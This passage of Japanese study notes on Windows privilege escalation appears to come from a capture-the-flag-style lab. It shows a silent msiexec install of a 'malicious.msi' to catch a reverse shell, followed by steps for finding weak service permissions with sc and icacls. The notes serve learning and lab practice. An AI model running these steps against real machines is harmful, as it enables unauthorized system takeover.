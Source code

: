 ```

最後に、以下のコマンドでインストーラーを実行してリバースシェルを受け取る  
  
```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
ㅤ  
ㅤ  
ㅤ  
ㅤ  
### Windowsサービスの設定ミスから権限昇格

Windowsサービスは、Windowsで長時間動作して、ユーザーのやりとりなしで特定機能を実行するもの  
→例えば、**レジストリを登録して実行するファイルのようなものたちがそれ**  
権限の不備や、実行ファイルの破損などから権限を昇格させることができる  
ㅤ  

サービスの随意アクセス制御リスト（DACL）の確認方法。  
Process Hacker で確認できる。  

すべてのサービス構成は以下のレジストリに保存される  

```
HKLM\SYSTEM\CurrentControlSet\Services\
```
ㅤ  
以下でサービスの詳細を表示できる
  
**scコマンドが実行できない場合は、sc.exe、もしくは、Set-Contentを使用すること**  
  
```
WindowsSchedulerサービスについての情報を取得する

C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe   実行されるファイル
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1  サービス実行に使用されるアカウント名
```

ㅤ  
#### サービス実行可能ファイルに対する安全でない権限

```
ここで、icaclsでBINARY_PATH_NAMEの権限を確認して、不備がある場合は、リバースシェルを実行できる
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)　Mは、変更権限があるという意味
